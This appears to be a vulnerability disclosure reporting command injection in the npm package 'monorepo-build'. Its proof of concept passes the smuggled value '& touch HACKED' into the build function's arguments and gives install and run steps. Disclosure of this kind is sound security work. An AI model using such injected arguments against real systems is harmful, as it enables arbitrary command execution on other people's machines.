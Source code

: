 # Description

Command Injection in monorepo-build

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var mb =require("monorepo-build");
mb.build("./","& touch HACKED","SHA-224");
```

2. Execute the following commands in terminal:

```
npm i monorepo-build # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution.
